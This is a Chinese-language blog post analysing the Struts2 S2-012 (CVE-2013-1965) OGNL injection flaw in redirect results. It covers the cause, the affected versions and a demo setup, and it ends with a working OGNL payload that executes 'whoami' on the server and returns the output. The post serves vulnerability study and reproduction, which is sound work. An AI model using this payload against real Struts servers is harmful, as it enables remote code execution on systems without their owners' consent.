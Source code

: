 ```yaml
---
layout: post
title: "S2-012"
subtitle: 'S2-012漏洞分析'
author: "taomujian"
header-style: text
tags:
  - Struts2 漏洞分析
---
```


## 前言

> 这是Struts系列第七篇,继续加油!

## Struts简介

> Struts2是用Java语言编写的一个基于MVC设计模式的Web应用框架

## 漏洞复现

### 漏洞简介

> Struts2 S2-012漏洞,又名CVE-2013-1965漏洞.

> 在Struts2框架中,如果配置Action中的Result时使用了重定向类型,并且还使用${param_name}作为重定向变量,当触发redirect类型返回时,Struts2使用${param_name}获取其值,在这个过程中会对name参数的值执行OGNL表达式解析,从而可以插入任意OGNL表达式导致任意代码执行

> [漏洞详情地址](https://cwiki.apache.org/confluence/display/WW/S2-012)

#### 漏洞成因

> 在Struts2框架中,如果配置Action中的Result时使用了重定向类型,并且还使用${param_name}作为重定向变量,当触发redirect类型返回时,Struts2使用${param_name}获取其值,在这个过程中会对name参数的值执行OGNL表达式解析,从而可以插入任意OGNL表达式导致任意代码执行

#### 漏洞影响范围

> Struts 2.0.0 - Struts 2.3.14.2

### 环境搭建

> 使用IDEA直接打开[源码地址](https://github.com/xhycccc/Struts2-Vuln-Demo)中的对应文件,然后配置好Tomcat就可以运行了

### Payload

#### 执行命令

```java
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"whoami"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
```
